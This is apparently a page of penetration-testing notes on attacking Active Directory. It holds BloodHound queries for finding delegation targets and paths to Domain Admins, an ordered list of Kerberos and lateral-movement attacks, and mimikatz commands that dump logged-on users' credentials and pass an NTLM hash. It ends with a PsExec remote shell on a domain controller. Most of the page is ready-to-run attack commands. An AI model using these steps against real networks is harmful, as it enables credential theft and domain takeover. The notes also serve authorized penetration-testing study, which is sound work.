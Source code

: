 
```powershell
#here lookin for unconstrained deleg

MATCH (dc:Computer)-[:MemberOf*1..]->(g:Group) WHERE g.objectsid ENDS WITH "516" WITH COLLECT(dc) as domainControllers MATCH p = (d:Domain)-[:Contains*1..]->(c:Computer {unconstraineddelegation:true}) WHERE NOT c in domainControllers SET c.highvalue = true RETURN c

```

* find shortest path

```powershell

MATCH p=shortestPath((c {owned: true})-[*1..3]->(s)) WHERE NOT c = s RETURN p

# to high value and DA
MATCH p=shortestPath((u {highvalue: false})-[*1..]->(g:Group {name: 'DOMAIN ADMINS@HACKERS.LAB'})) WHERE NOT (u)-[:MemberOf*1..]->(:Group {highvalue: true}) RETURN p
```

## Exploitation

Try attacking AD in this order:
Source Link: https://www.tarlogic.com/blog/how-to-attack-kerberos/

* Kerberos brute-force
* ASREPRoast
* Kerberoasting
* Pass the hash
* Pass the Ticket
* Overpass the Hash
* Pass the ticket
* Silver ticket
* Distributed Component Object Model
* Golden Ticket
* Windows Management Instr: https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf
* Powershell Remoting

### Local Host Memmory Dumping

Most of the AD attacks shall require hash or ticket that can be only extracted with SYSTEM rights from the target host.

```powershell

#engage the SeDebugPrivlege
privilege::debug

#dump the credentials of all logged-on users using the Sekurlsa
sekurlsa::logonpasswords

# get the hash here

#pass the hash

sekurlsa::pth /user:zensvc /domain:exam.com /ntlm:d098fa8675acd7d26ab86eb2581233e5 /run:PowerShell.exe

#get remote shell
.\PsExec.exe \\dc02 cmd.exe


```
